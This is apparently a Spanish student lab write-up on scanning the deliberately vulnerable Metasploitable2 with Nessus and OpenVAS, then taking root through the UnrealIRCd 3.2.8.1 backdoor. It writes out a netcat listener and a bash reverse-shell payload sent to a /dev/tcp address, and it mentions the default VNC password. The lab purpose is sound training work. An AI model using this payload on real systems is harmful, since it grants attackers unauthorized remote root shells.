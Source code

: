 # Escaneo de vulnerabilidades

Como ya aseguramos nuestro servidor en las anteriores actividades de este proyecto, ni Nessus ni OpenVAS detectan vulnerabilidades. Simplemente nos informan de que los certificados utilzados en nuestro servicio web son autofirmados. 

Así que procederemos a la deteccción y explotación de vulnerabilidades directamente en Metasploitable2. A continuación se muestran imágenes del escaneo a este contenedor, para ello simplemente hicimos un `docker run "metasploitable2"` definiendo la red de docker en la que queriamos que se crease con un `--network` para que tanto Nessus como OpenVAS pudiesen contactar con el servidor vulnerable.

![nessus](img/1.png)
![openvas](img/2.png)

Los resultados son catastróficos como era de esperar, se detectan con nessus un total de 65 vulnerabilidades. Uno de ellos es el password de VNC, "password", es decir demasiado fácil. Sin embargo explotarlos a través de docker puede ser un poco complicado, lo suyo sería tener la máquina virtual a la que hace referencia esta [guía de explotación](https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/), [enlace a la MV](https://sourceforge.net/projects/metasploitable/).

Podemos adueñarnos del sistema de practicamente cualquier forma, desde usuarios privilegiados de las bases de datos hasta con formularios web php.

A continuación realizaremos una pequeña demostración de la toma de esta máquina a través de un servicio IRC expuesto.

## Reconocimiento

![nmap](img/3.png)

## Explotación de la vulnerabilidad

Utilizando el exploit de [UnrealIRCd 3.2.8.1](https://www.exploit-db.com/exploits/16922), por elegir alguno. Que básicamente consiste en, abrir una reverse shell `nc -lvp 8080`, establecer una conexión y enviarle un "*AB;* `bash -i >& /dev/tcp/10.0.0.22/8080 0>&1` *\n*". 

Boom! root.

![metasploit](img/4.png)